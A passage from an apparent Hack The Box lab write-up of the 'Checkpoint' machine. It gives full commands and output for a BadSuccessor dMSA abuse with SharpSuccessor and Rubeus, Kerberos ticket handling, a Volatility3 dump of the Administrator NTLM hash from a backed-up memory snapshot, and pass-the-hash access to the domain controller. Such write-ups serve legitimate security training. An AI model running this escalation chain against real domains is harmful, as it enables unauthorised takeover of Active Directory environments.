┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec ldap 10.129.21.94 -u 'ryan.brooks' --use-kcache -k --kdcHost DC01.checkpoint.htb -M badsuccessor
LDAP        10.129.21.94    389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:CHECKPOINT.HTB) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.129.21.94    389    DC01             [+] CHECKPOINT.HTB\ryan.brooks from ccache 
BADSUCCE... 10.129.21.94    389    DC01             [+] Found domain controller with operating system Windows Server 2025: 10.129.21.94 (DC01.checkpoint.htb)
BADSUCCE... 10.129.21.94    389    DC01             [+] Found 2 results
BADSUCCE... 10.129.21.94    389    DC01             alex.turner (S-1-5-21-3129162710-3498938529-1807524340-1101), OU=Employees,DC=checkpoint,DC=htb
BADSUCCE... 10.129.21.94    389    DC01             ryan.brooks (S-1-5-21-3129162710-3498938529-1807524340-1103), OU=DMSAHolder,DC=checkpoint,DC=htb
```

- [https://github.com/ibaiC/BadSuccessor](https://github.com/ibaiC/BadSuccessor)

```shell
[1230390d]> .\BadSuccessor.exe find


 ______           __ _______                                               
|   __ \ .---.-.--|  |     __|.--.--.----.----.-----.-----.-----.-----.----.
|   __ < |  _  |  _  |__     ||  |  |  __|  __|  -__|__ --|__ --|  _  |   _|
|______/ |___._|_____|_______||_____|____|_____|_____|_____|_____|_____|__|  

Researcher: @YuG0rd
Author: @kreepsec


[*] OUs you have write access to:
    -> OU=Domain Controllers,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=Employees,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=ServiceAccounts,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=DMSAHolder,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll, CreateChild
    -> OU=IT,OU=Employees,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=Finance,OU=Employees,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=HR,OU=Employees,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
    -> OU=Engineering,OU=Employees,DC=checkpoint,DC=htb
       Privileges: GenericWrite, GenericAll
```

`SharpSuccessor` then was used to create and weaponize a `dMSA` object named `foobar$` in `OU=DMSAHolder`, with `svc_deploy` as the superseded account and `ryan.brooks` as the account permitted to authenticate as the `dMSA`.

- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.0_Any](https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.0_Any)

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/serve]
└─$ wget https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/SharpSuccessor.exe -O SharpSuccessor.exe
--2026-06-14 15:05:33--  https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/SharpSuccessor.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13312 (13K) [application/octet-stream]
Saving to: ‘SharpSuccessor.exe’

SharpSuccessor.exe                                                                                         100%[======================================================================================================================================================================================================================================================================================>]  13.00K  --.-KB/s    in 0.003s  

2026-06-14 15:05:33 (4.07 MB/s) - ‘SharpSuccessor.exe’ saved [13312/13312]
```

```shell
[1230390d]> powershell iwr 10.10.16.63/SharpSuccessor.exe -o SharpSuccessor.exe
```

```shell
[1230390d]> .\SharpSuccessor.exe abuse -target svc_deploy -new dmsa_evil -ou "OU=Employees,DC=checkpoint,DC=htb" -domain checkpoint.htb

   _____ _                      _____                                        
  / ____| |                    / ____|                                       
 | (___ | |__   __ _ _ __ _ __| (___  _   _  ___ ___ ___  ___ ___  ___  _ __ 
  \___ \| '_ \ / _` | '__| '_ \\___ \| | | |/ __/ __/ _ \/ __/ __|/ _ \| '__|
  ____) | | | | (_| | |  | |_) |___) | |_| | (_| (_|  __/\__ \__ \ (_) | |   
 |_____/|_| |_|\__,_|_|  | .__/_____/ \__,_|\___\___\___||___/___/\___/|_|   
                         | |                                                 
                         |_|                                                 
@_logangoins

[*] Create and weaponize a dMSA object, setting the target for impersonation, path of the vulnerable OU, account to access to weaponized dMSA, and the name of the dMSA object:
        SharpSuccessor.exe add /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" /account:jdoe /name:attacker_dMSA
```

```shell
[1230390d]> .\SharpSuccessor.exe add /path:"OU=DMSAHolder,DC=checkpoint,DC=htb" /account:ryan.brooks /name:foobar /impersonate:svc_deploy

   _____ _                      _____                                        
  / ____| |                    / ____|                                       
 | (___ | |__   __ _ _ __ _ __| (___  _   _  ___ ___ ___  ___ ___  ___  _ __ 
  \___ \| '_ \ / _` | '__| '_ \\___ \| | | |/ __/ __/ _ \/ __/ __|/ _ \| '__|
  ____) | | | | (_| | |  | |_) |___) | |_| | (_| (_|  __/\__ \__ \ (_) | |   
 |_____/|_| |_|\__,_|_|  | .__/_____/ \__,_|\___\___\___||___/___/\___/|_|   
                         | |                                                 
                         |_|                                                 
@_logangoins

[+] Adding dnshostname foobar.checkpoint.htb
[+] Adding samaccountname foobar$
[+] svc_deploy's DN identified
[+] Attempting to write msDS-ManagedAccountPrecededByLink
[+] Wrote attribute successfully
[+] Attempting to write msDS-DelegatedMSAState attribute
[+] Attempting to set access rights on the dMSA object
[+] Attempting to write msDS-SupportedEncryptionTypes attribute
[+] Attempting to write userAccountControl attribute
[+] Created dMSA object 'CN=foobar' in 'OU=DMSAHolder,DC=checkpoint,DC=htb'
[+] Successfully weaponized dMSA object
[+] Found target account, attempting to write attributes
[+] CN=foobar,OU=DMSAHolder,DC=checkpoint,DC=htb written to svc_deploy object
[+] msDS-SupersededServiceAccountState set to 2
[+] Wrote to target account successfully
```

With the `dMSA` created, a second `tgtdeleg` run extracted a fresh delegation `TGT` for the `ryan.brooks` session, and `Rubeus asktgs` with the `/dmsa` flag requested a `TGS` for `foobar$` targeting `krbtgt/CHECKPOINT.HTB`. The resulting ticket carried the `SID` history of `svc_deploy`.

```shell
[1230390d]> Rubeus.exe tgtdeleg /nowrap


   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.checkpoint.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation request success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: zuJYH7GaA7LTFe7jPE9JH5XXeAti0EbC5t9X8FRK6eM=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuIUDMWVt8SULaG333vrkgUNe50JxpU4Mc0/9Xm21TSYw5WJutwcxZgyHkzkMgLuYCLwLutO1acdzI8drfgyGoKXt7gZY7BUoN7LCO11rB3Ey+HBzu6WhVnKAmhNM97yRBBWJ+foM2pejSam/jVeTceuZSXWsuSTwCAey5XaMQL2haI2g0aKTxLGX8jyYPPQDW/yUqKPDGomccetx1PG9Yt6Pd49j6AYahnpsydpkcso5q4NKjPXTZa9Gk3Ou7qy3CIn9N6diQc2WypmvWRDOcgAD7ZpHdab2AMDawfSL7L50pmxKyx3BaQEYrz1hsw8h6nsgLJ2+ul8XfuzIL4UOZhRUEVA/OEak87tYHbaf62q77zxbniEeh3LwjF+J6QRCCOYOluX2SCpcT8iOQXMTDvuk/3NZaVnNCvhdey5IUW52NLvA04IPUBeiBpWoqE4/p8Wxws8YEA7nBZ7ctUIL3xeBZQ7Wj+dkphfhFaoRPPtkYX7Iw2lZj40pCBL0qx8Immr0OvcvmaKlShEdaQuFi5PtcaoOkYKM8gqrIRpG8fn8amE3SUukRJJrWRy4gRojtuTVXx75VxZ29lAbXo/e9FUlNiVtP8/u2gEzVonZE4KBHggS6gIJzHBhM1I+gHOrpbxWXhBfRUV/P+/G7Tl8QLYf25FXkg8wvfDlNDSsHfIfdgYiXX6MnT0KEYGlBGJJUZ1ogEbEdY4kEqldDTmW7it2ptk5auJYdWnhQgErM3jSIKNzeUxu+50JILAN74oGNwOfmReXDS5Eu5ccQ34NiKGupH9NF3hM/dbR64aqZ0uLp3afkts8E8yAB1UA6Pvsu27JmlpcR5CPrNgTPzm0hSgDexkHVelJtEGawQJ4yJrM0Tor0Go39Ha0E00nfHVEzaCrwhc3HPUTuaLva1rNiAQaT7C9qny/UTcWOzDvl5S16/NYQTdid1g6ISNOxoclQo4ILX35GrjjvO0IvVVu1NH0gdDlkAFl5wenrjkgXMFTK/NEGCgc9JzwoW/MNO4vM9iRRnyGaTzmTEfYw0BXUIvIdImiqvwv+w3cYwnREOHKTw90TLWiwGA3XDq2XWXjYg0OFedpory+oL0H1VbVnnXc+iRZNuErz8hJR0VtvI2aHUfAbq3XfzGDUwRXXE6ttweJGhxR0ga4hFrYUgeehIMDo3S1yuml0QiEOypS1GBksxgaycJ5K3a/4ucwGjcgnkRVZer7g0bQB9rawlR/JSAS5lkRm5bKcMUXaXp77kozCXIhBwNxUzCCPIXfu1WX+mBbfTnMitJFY/jMDQMvciMz9BNHXuy3VEx7BcmJTfHkP73tZsGKD5fhwpkPvQygq9ZHRowkrGSfzclYaE7xiWIx0rZdhjzlOaY31pVIT3l7U9ByQmgSv1MK5Yn8MDgcxmV019IuG9w4FEwrR2VBB3UmF+PVTZSAi/CzKyXv1Nh2xZueeuBiW3DaEXAj67Xrqjgoj2THQcx6w1F9ptbSCOU0/lsR0tyPHPeZ65m+ro4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQgqc0lz27C9P/gd0mPGTY5CNEiYFCI3P+vWNVpOk+iSo+hEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MDYxNDEyMzI1NVqmERgPMjAyNjA2MTQxNDMyMTBapxEYDzIwMjYwNjIxMDQzMjEwWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=
```

```shell
[1230390d]> .\Rubeus.exe asktgs /targetuser:foobar$ /service:krbtgt/CHECKPOINT.HTB /dmsa /opsec /nowrap /ticket:doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRuIUDMWVt8SULaG333vrkgUNe50JxpU4Mc0/9Xm21TSYw5WJutwcxZgyHkzkMgLuYCLwLutO1acdzI8drfgyGoKXt7gZY7BUoN7LCO11rB3Ey+HBzu6WhVnKAmhNM97yRBBWJ+foM2pejSam/jVeTceuZSXWsuSTwCAey5XaMQL2haI2g0aKTxLGX8jyYPPQDW/yUqKPDGomccetx1PG9Yt6Pd49j6AYahnpsydpkcso5q4NKjPXTZa9Gk3Ou7qy3CIn9N6diQc2WypmvWRDOcgAD7ZpHdab2AMDawfSL7L50pmxKyx3BaQEYrz1hsw8h6nsgLJ2+ul8XfuzIL4UOZhRUEVA/OEak87tYHbaf62q77zxbniEeh3LwjF+J6QRCCOYOluX2SCpcT8iOQXMTDvuk/3NZaVnNCvhdey5IUW52NLvA04IPUBeiBpWoqE4/p8Wxws8YEA7nBZ7ctUIL3xeBZQ7Wj+dkphfhFaoRPPtkYX7Iw2lZj40pCBL0qx8Immr0OvcvmaKlShEdaQuFi5PtcaoOkYKM8gqrIRpG8fn8amE3SUukRJJrWRy4gRojtuTVXx75VxZ29lAbXo/e9FUlNiVtP8/u2gEzVonZE4KBHggS6gIJzHBhM1I+gHOrpbxWXhBfRUV/P+/G7Tl8QLYf25FXkg8wvfDlNDSsHfIfdgYiXX6MnT0KEYGlBGJJUZ1ogEbEdY4kEqldDTmW7it2ptk5auJYdWnhQgErM3jSIKNzeUxu+50JILAN74oGNwOfmReXDS5Eu5ccQ34NiKGupH9NF3hM/dbR64aqZ0uLp3afkts8E8yAB1UA6Pvsu27JmlpcR5CPrNgTPzm0hSgDexkHVelJtEGawQJ4yJrM0Tor0Go39Ha0E00nfHVEzaCrwhc3HPUTuaLva1rNiAQaT7C9qny/UTcWOzDvl5S16/NYQTdid1g6ISNOxoclQo4ILX35GrjjvO0IvVVu1NH0gdDlkAFl5wenrjkgXMFTK/NEGCgc9JzwoW/MNO4vM9iRRnyGaTzmTEfYw0BXUIvIdImiqvwv+w3cYwnREOHKTw90TLWiwGA3XDq2XWXjYg0OFedpory+oL0H1VbVnnXc+iRZNuErz8hJR0VtvI2aHUfAbq3XfzGDUwRXXE6ttweJGhxR0ga4hFrYUgeehIMDo3S1yuml0QiEOypS1GBksxgaycJ5K3a/4ucwGjcgnkRVZer7g0bQB9rawlR/JSAS5lkRm5bKcMUXaXp77kozCXIhBwNxUzCCPIXfu1WX+mBbfTnMitJFY/jMDQMvciMz9BNHXuy3VEx7BcmJTfHkP73tZsGKD5fhwpkPvQygq9ZHRowkrGSfzclYaE7xiWIx0rZdhjzlOaY31pVIT3l7U9ByQmgSv1MK5Yn8MDgcxmV019IuG9w4FEwrR2VBB3UmF+PVTZSAi/CzKyXv1Nh2xZueeuBiW3DaEXAj67Xrqjgoj2THQcx6w1F9ptbSCOU0/lsR0tyPHPeZ65m+ro4HvMIHsoAMCAQCigeQEgeF9gd4wgduggdgwgdUwgdKgKzApoAMCARKhIgQgqc0lz27C9P/gd0mPGTY5CNEiYFCI3P+vWNVpOk+iSo+hEBsOQ0hFQ0tQT0lOVC5IVEKiGDAWoAMCAQGhDzANGwtyeWFuLmJyb29rc6MHAwUAYKEAAKURGA8yMDI2MDYxNDEyMzI1NVqmERgPMjAyNjA2MTQxNDMyMTBapxEYDzIwMjYwNjIxMDQzMjEwWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hFQ0tQT0lOVC5IVEI=


   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building DMSA TGS-REQ request for 'foobar$' from 'ryan.brooks'
[+] Sequence number is: 436767068
[*] Using domain controller: DC01.checkpoint.htb (fe80::8e61:7282:e884:8be%5)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFtDCCBbCgAwIBBaEDAgEWooIEtDCCBLBhggSsMIIEqKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBGgwggRkoAMCARKhAwIBAqKCBFYEggRSaV4CfCHk/emc0lYNBJ6xOQA5S/8vtmter5AvEFxzPHuYTNM4X9w/RvU4CQn/kg3Xe1XnqSaBzmgNWCFUypbpXu7ALn4x76+VJbaZ2LIsnh7zab7FE/yqod+mk1tHqotayCZBZu239d8RAOC7jQ2doN6QiPytfw0Z3Bs6Ue4qay+VNLrRkUIdja6kSuv6WsOSEqQiBBeQEJ7oIgif3DDNNdcibroOEoVCNG1yAJ5E3ZSYvubC/HS1ckYIqdUFGcJSprFhlNLxblvqyXIBLAg5L+dKQMY5IyCE7Z3OwASRmSZwApXo9CRsr43rwwzccuNet2hQR+nIuG1g5K9AupGibIcf4pGYynH7m35PSwOKTQuecBfp/mLuoT0anWg5rR3aVh6qD0WRh9ERDjPD3oeqB+O8UV4CZbnPJOnA+SM0o95QPbUxbhNMs2fTO0J8q9ePljlL1N5+50TI9TqPdlRn2rr8CTTz+vGXnZeMywJ3eiEh0YexRLx65mAxd3v4OQ4ARqlxa37pW/c6zKMSkXJKR4+rGXpzQrow5lL3jTw6oGMNv9+Xk4SjfdetAdFnvfcbkb8Va38sSSC97eXtHSqHPtE5/i7MIfjg7Y1sI4nVdIQicRCuQchHCr4XbogU0NHNJ2doFefdENNOyeNYWqKcG+DzKe6e9zgX2PLkgAHciVLRw+Amv+fwxMl62WcXYACJj4JINNRnq0EM29OR5hg+OHtD1+v8TFoJeN4yjcFh1wIX3MQVTR/FgrX/H9jz61tMgu0apT4ODltZsHE/YWed4voGwV27jkdEj41d6nuonuxhYm7SCG5nmpgqVCE2j17GPkpb86JD6Um2AJnPDCn3brP1V1lahg1gIFnKHVqFqDHwYFoDlbSc+R/l31+71Bt2nUrJOKMPEHUf5fLke6cu4gHOpm1nbHCphM0/t1pDqBTnLjtK5LYc6VympAdycizMNfEWdletfLkRJsC0DbW2RzVAsrVbr+1Y2AQ4B1rD1ZTlmmSLkUSZ9VaG4kdXhazxQrsqRTEE9t0R1UAJtM6Xgu1C89xT26mmnU31gK8YUtgF/SWcu0I/ko0K5liFeunZ9IN9UCxqvX8RZWUetADNJgRc9j75BE0w8cCZ3StEFINoCanmFzAgqbx56tWT9w38wR/qfQquzlHjDMrPPgAwjyXZCXRg+n9Hpku77HCohYGx8NPCSSQNeX3Jq5FTJE5LZ9AwBJwcEDnpg/Rw3y6k5giTQIEWdyFKN6U5ROi4Dxj60h876QCpA56F7CPQ//lD7e6zqrud5qRuJUZP+fj7ZN/txrekuYHg+enIe/zc3/jHL0l5ltFnGi25ZvJiPVrItzaM8jftkwwUgULVi0HWtqJlmHuq0+UcrhOIAQCpggg/loExLtx3BUI3wCxodtVQgxeQkxKP5xABx5f8+oqneWoCSAYS9J0uoyTK33reN4145Elt5q39rjFCi5BPjakzkQ+jgeswgeigAwIBAKKB4ASB3X2B2jCB16CB1DCB0TCBzqArMCmgAwIBEqEiBCDjO6pUSzt2LBmiedjxqLlcPlvER2rRgbD9Fzc8q/vmaKEQGw5jaGVja3BvaW50Lmh0YqIUMBKgAwIBAaELMAkbB2Zvb2JhciSjBwMFAGChAAClERgPMjAyNjA2MTQxMzM3NThaphEYDzIwMjYwNjE0MTM1MjU4WqcRGA8yMDI2MDYyMTA0MzIxMFqoEBsOQ0hFQ0tQT0lOVC5IVEKpIzAhoAMCAQKhGjAYGwZrcmJ0Z3QbDkNIRUNLUE9JTlQuSFRC

  ServiceName              :  krbtgt/CHECKPOINT.HTB
  ServiceRealm             :  CHECKPOINT.HTB
  UserName                 :  foobar$ (NT_PRINCIPAL)
  UserRealm                :  checkpoint.htb
  StartTime                :  6/14/2026 6:37:58 AM
  EndTime                  :  6/14/2026 6:52:58 AM
  RenewTill                :  6/20/2026 9:32:10 PM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  4zuqVEs7diwZonnY8ai5XD5bxEdq0YGw/Rc3PKv75mg=
  Current Keys for foobar$: (aes256_cts_hmac_sha1) 722FFE053546C0EADFDE25E975DAF8F07308F0B2502BE9F789B60DEE16FB625E
```

The `foobar$` ticket was decoded, converted to `.ccache` and loaded, then `NetExec` confirmed authentication as `foobar$` with `READ` access to `VMBackups` — previously inaccessible — confirming the `svc_deploy` privilege inheritance was in effect.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ echo "doIFtDCCBbCgAwIBBaEDAgEWooIEtDCCBLBhggSsMIIEqKADAgEFoRAbDkNIRUNLUE9JTlQuSFRCoiMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQqOCBGgwggRkoAMCARKhAwIBAqKCBFYEggRSaV4CfCHk/emc0lYNBJ6xOQA5S/8vtmter5AvEFxzPHuYTNM4X9w/RvU4CQn/kg3Xe1XnqSaBzmgNWCFUypbpXu7ALn4x76+VJbaZ2LIsnh7zab7FE/yqod+mk1tHqotayCZBZu239d8RAOC7jQ2doN6QiPytfw0Z3Bs6Ue4qay+VNLrRkUIdja6kSuv6WsOSEqQiBBeQEJ7oIgif3DDNNdcibroOEoVCNG1yAJ5E3ZSYvubC/HS1ckYIqdUFGcJSprFhlNLxblvqyXIBLAg5L+dKQMY5IyCE7Z3OwASRmSZwApXo9CRsr43rwwzccuNet2hQR+nIuG1g5K9AupGibIcf4pGYynH7m35PSwOKTQuecBfp/mLuoT0anWg5rR3aVh6qD0WRh9ERDjPD3oeqB+O8UV4CZbnPJOnA+SM0o95QPbUxbhNMs2fTO0J8q9ePljlL1N5+50TI9TqPdlRn2rr8CTTz+vGXnZeMywJ3eiEh0YexRLx65mAxd3v4OQ4ARqlxa37pW/c6zKMSkXJKR4+rGXpzQrow5lL3jTw6oGMNv9+Xk4SjfdetAdFnvfcbkb8Va38sSSC97eXtHSqHPtE5/i7MIfjg7Y1sI4nVdIQicRCuQchHCr4XbogU0NHNJ2doFefdENNOyeNYWqKcG+DzKe6e9zgX2PLkgAHciVLRw+Amv+fwxMl62WcXYACJj4JINNRnq0EM29OR5hg+OHtD1+v8TFoJeN4yjcFh1wIX3MQVTR/FgrX/H9jz61tMgu0apT4ODltZsHE/YWed4voGwV27jkdEj41d6nuonuxhYm7SCG5nmpgqVCE2j17GPkpb86JD6Um2AJnPDCn3brP1V1lahg1gIFnKHVqFqDHwYFoDlbSc+R/l31+71Bt2nUrJOKMPEHUf5fLke6cu4gHOpm1nbHCphM0/t1pDqBTnLjtK5LYc6VympAdycizMNfEWdletfLkRJsC0DbW2RzVAsrVbr+1Y2AQ4B1rD1ZTlmmSLkUSZ9VaG4kdXhazxQrsqRTEE9t0R1UAJtM6Xgu1C89xT26mmnU31gK8YUtgF/SWcu0I/ko0K5liFeunZ9IN9UCxqvX8RZWUetADNJgRc9j75BE0w8cCZ3StEFINoCanmFzAgqbx56tWT9w38wR/qfQquzlHjDMrPPgAwjyXZCXRg+n9Hpku77HCohYGx8NPCSSQNeX3Jq5FTJE5LZ9AwBJwcEDnpg/Rw3y6k5giTQIEWdyFKN6U5ROi4Dxj60h876QCpA56F7CPQ//lD7e6zqrud5qRuJUZP+fj7ZN/txrekuYHg+enIe/zc3/jHL0l5ltFnGi25ZvJiPVrItzaM8jftkwwUgULVi0HWtqJlmHuq0+UcrhOIAQCpggg/loExLtx3BUI3wCxodtVQgxeQkxKP5xABx5f8+oqneWoCSAYS9J0uoyTK33reN4145Elt5q39rjFCi5BPjakzkQ+jgeswgeigAwIBAKKB4ASB3X2B2jCB16CB1DCB0TCBzqArMCmgAwIBEqEiBCDjO6pUSzt2LBmiedjxqLlcPlvER2rRgbD9Fzc8q/vmaKEQGw5jaGVja3BvaW50Lmh0YqIUMBKgAwIBAaELMAkbB2Zvb2JhciSjBwMFAGChAAClERgPMjAyNjA2MTQxMzM3NThaphEYDzIwMjYwNjE0MTM1MjU4WqcRGA8yMDI2MDYyMTA0MzIxMFqoEBsOQ0hFQ0tQT0lOVC5IVEKpIzAhoAMCAQKhGjAYGwZrcmJ0Z3QbDkNIRUNLUE9JTlQuSFRC" | base64 -d > foobar.kirbi
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ impacket-ticketConverter foobar.kirbi foobar.ccache && export KRB5CCNAME=foobar.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -k --use-kcache --shares
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\foobar$ from ccache 
SMB         10.129.21.94    445    DC01             [*] Enumerated shares
SMB         10.129.21.94    445    DC01             Share           Permissions     Remark
SMB         10.129.21.94    445    DC01             -----           -----------     ------
SMB         10.129.21.94    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.21.94    445    DC01             C$                              Default share
SMB         10.129.21.94    445    DC01             DevDrop                         VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.21.94    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.21.94    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.21.94    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.21.94    445    DC01             VMBackups       READ
```

## Privilege Escalation to System

### Credential Extraction using Volatility3

With access to `VMBackups`, `impacket-smbclient` was used to browse the share and locate the backup contents. The `NightlyBackup_2024-11-01` directory contained a `memory forensics` subdirectory with a full `VMware` snapshot set, including `Windows Server 2019-Snapshot1.vmem` — a raw memory dump of a running `Windows Server 2019` instance.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ KRB5CCNAME=foobar.ccache impacket-smbclient -k -no-pass 'checkpoint.htb/foobar$@DC01.checkpoint.htb'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
#
```

```shell
# shares
ADMIN$
C$
DevDrop
IPC$
NETLOGON
SYSVOL
VMBackups
```

```shell
# use VMBackups
```

```shell
# ls
drw-rw-rw-          0  Wed May 13 15:58:05 2026 .
drw-rw-rw-          0  Sat May  9 16:42:27 2026 ..
drw-rw-rw-          0  Wed May 13 15:58:18 2026 NightlyBackup_2024-11-01
```

```shell
# cd NightlyBackup_2024-11-01
```

```shell
# cd memory forensics
```

```shell
# ls
drw-rw-rw-          0  Wed May 13 15:58:18 2026 .
drw-rw-rw-          0  Wed May 13 15:58:18 2026 ..
-rw-rw-rw-  106496000  Wed May 13 15:58:18 2026 Windows Server 2019-000001.vmdk
-rw-rw-rw- 2147483648  Wed May 13 15:58:18 2026 Windows Server 2019-Snapshot1.vmem
-rw-rw-rw-  138164859  Fri May 15 00:32:32 2026 Windows Server 2019-Snapshot1.vmsn
-rw-rw-rw-     270840  Wed May 13 15:58:18 2026 Windows Server 2019.nvram
-rw-rw-rw-       7642  Wed May 13 15:58:18 2026 Windows Server 2019.scoreboard
-rw-rw-rw- 10199695360  Wed May 13 15:58:18 2026 Windows Server 2019.vmdk
-rw-rw-rw-        502  Wed May 13 15:58:18 2026 Windows Server 2019.vmsd
-rw-rw-rw-       2749  Wed May 13 15:58:18 2026 Windows Server 2019.vmx
-rw-rw-rw-        274  Wed May 13 15:58:18 2026 Windows Server 2019.vmxf
```

```shell
# get Windows Server 2019-Snapshot1.vmem
```

We `Volatility3` threw against the downloaded snapshot with the `windows.hashdump` plugin, which extracts `SAM` hashes from the `HKLM\SAM` and `HKLM\SYSTEM` registry hives mapped in memory. And so the `Administrator` `NTLM` hash `f29e9c014295b9b32139b09a2790be3b`was recovered.

- [https://github.com/volatilityfoundation/volatility](https://github.com/volatilityfoundation/volatility)

```shell
┌──(kali㉿kali)-[~/opt/11_forensics_handbook]
└─$ git clone https://github.com/volatilityfoundation/volatility3
Cloning into 'volatility3'...
remote: Enumerating objects: 50596, done.
remote: Counting objects: 100% (613/613), done.
remote: Compressing objects: 100% (283/283), done.
remote: Total 50596 (delta 480), reused 330 (delta 330), pack-reused 49983 (from 3)
Receiving objects: 100% (50596/50596), 10.23 MiB | 30.20 MiB/s, done.
Resolving deltas: 100% (39231/39231), done.
```

```shell
┌──(kali㉿kali)-[~/opt/11_forensics_handbook/volatility3]
└─$ python vol.py -f "Windows Server 2019-Snapshot1.vmem" windows.hashdump
Volatility 3 Framework 2.28.1
/home/kali/opt/11_forensics_handbook/volatility3/volatility3/framework/deprecation.py:28: FutureWarning: This API (volatility3.plugins.windows.registry.hashdump.Hashdump.run) will be removed in the first release after 2026-09-25. This plugin has been renamed, please call volatility3.plugins.windows.registry.hashdump.Hashdump rather than volatility3.plugins.windows.hashdump.Hashdump.
  warnings.warn(

User    rid     lmhash  nthash
/home/kali/opt/11_forensics_handbook/volatility3/volatility3/framework/deprecation.py:105: FutureWarning: This plugin (volatility3.plugins.windows.hashdump.Hashdump) has been renamed and will be removed in the first release after 2026-09-25. Please ensure all method calls to this plugin are replaced with calls to volatility3.plugins.windows.registry.hashdump.Hashdump
  warnings.warn(

Administrator   500     aad3b435b51404eeaad3b435b51404ee        f29e9c014295b9b32139b09a2790be3b
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount  503     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount      504     aad3b435b51404eeaad3b435b51404ee        28f8d934dee90b2ec824351cb0844479
```

The recovered hash allowed us a `Pass-the-Hash` attack via `NetExec`, confirming it was valid for `checkpoint.htb\Administrator` and granting `Pwn3d!` status. Then we authenticated to `DC01` via `Evil-WinRM`.

```shell
